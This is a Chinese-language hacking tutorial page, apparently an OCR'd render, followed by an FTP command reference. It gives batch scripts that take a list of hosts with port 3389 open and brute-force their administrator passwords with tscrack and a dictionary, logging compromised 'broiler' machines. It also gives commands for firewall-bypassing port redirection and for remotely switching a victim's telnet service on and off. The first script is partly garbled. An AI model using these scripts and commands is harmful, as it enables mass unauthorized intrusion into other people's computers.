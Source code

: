 ```cmd
　　@if not exist ipcscan.txt goto noscan
　　@for /f "tokens=1 delims= " %%i in (3389.txt) do call hack.bat %%i
　　nscan
　　@echo 3389.txt no find or scan faild
```

(①存为3389.bat) （假设现有用SuperScan或其它扫锚器扫到一批开有3389的主机IP列表文件3389.txt)
3389.bat意思是：从3389.txt文件中取一个IP，接着运行`hack.bat`

```cmd
　　@if not exist tscrack.exe goto noscan
　　@tscrack %1 -l administrator -w pass.dic >>rouji.txt
　　:noscan
　　@echo tscrack.exe no find or scan faild
```

(②存为hack.bat) (运行3389.bat就OK，且3389.bat、hack.bat、3389.txt、pass.dic与tscrack.exe在同一个目录下；就可以等待结果了)
　　hack.bat意思是：运行tscrack.exe用字典暴破3389.txt中所有主机的administrator密码，并将破解结果保存在rouji.txt文件中。
### 其它
####  Shutdown.exe

- Shutdown IP地址 t:20 20秒后将对方NT自动关闭（Windows 2003系统自带工具，在Windows2000下用进就得下载此工具才能用。在前面Windows 2003 DOS命令中有详细介绍。）
- `fpipe.exe` (TCP端口重定向工具) 在第二篇中有详细说明（端口重定向绕过防火墙）
- `fpipe -l 80 -s 1029 -r 80` 当有人扫锚你的80端口时，他扫到的结果会完全是的主机信息
- `Fpipe -l 23 -s 88 -r 23` 目标IP 把本机向目标IP发送的23端口Telnet请求经端口重定向后，就通过88端口发送到目标IP的23端口。（与目标IP建立Telnet时本机就用的88端口与其相连接）然后：直接Telnet 127.0.0.1（本机IP）就连接到目标IP的23端口了。
#### OpenTelnet.exe (远程开启telnet工具)
- `opentelnet.exe IP 帐号　密码　ntlm认证方式　Telnet端口` （不需要上传ntlm.exe破坏微软的身份验证方式）直接远程开启对方的telnet服务后，就可用telnet ip 连接上对方。
- NTLM认证方式：0：不使用NTLM身份验证；1：先尝试NTLM身份验证，如果失败，再使用用户名和密码；2：只使用NTLM身份验证。
##### ResumeTelnet.exe (OpenTelnet附带的另一个工具)

- `resumetelnet.exe IP　帐号　密码 `用Telnet连接完对方后，就用这个命令将对方的Telnet设置还原，并同时关闭Telnet服务。

##### FTP命令详解
FTP命令是Internet用户使用最频繁的命令之一，熟悉并灵活应用FTP的内部命令，可以大大方便使用者，并收到事半功倍之效。如果你想学习使用进行后台FTP下载，那么就必须学习FTP指令。
FTP的命令行格式为：

* `ftp -v -d -i -n -g [主机名]` ，其中
 
    `-v` 显示远程服务器的所有响应信息

    `-n` 限制ftp的自动登录，即不使用.n etrc文件；
    
    `-d` 使用调试方式；

    `-g` 取消全局文件名。
　　

FTP使用的内部命令如下(中括号表示可选项):

1. `![cmd[args]]`：在本地机中执行交互shell，exit回到ftp环境，如：`!ls*.zip`
2. `$ macro-ame[args]`： 执行宏定义macro-name。
3. `account[password]`： 提供登录远程系统成功后访问系统资源所需的补充口令。
4. `append local-file[remote-file]`：将本地文件追加到远程系统主机，若未指定远程系统文件名，则使用本地文件名。
5. `ascii`：使用ascii类型传输方式。
6. `bell`：每个命令执行完毕后计算机响铃一次。
7. `bin`：使用二进制文件传输方式。
8. `bye`：退出ftp会话过程。
9. `case`：在使用mget时，将远程主机文件名中的大写转为小写字母。
5. `cd` remote-dir：进入远程主机目录。
11. `cdup`：进入远程主机目录的父目录。
12. `chmod mode file-name`：将远程主机文件file-name的存取方式设置为mode，如：`chmod 777 a.out`。
13. `close`：中断与远程服务器的ftp会话(与open对应)。
14. `cr`：使用asscii方式传输文件时，将回车换行转换为回行。
15. `delete remote-file`：删除远程主机文件。
16. `debug[debug-value]`：设置调试方式， 显示发送至远程主机的每条命令，如：deb up 3，若设为0，表示取消debug。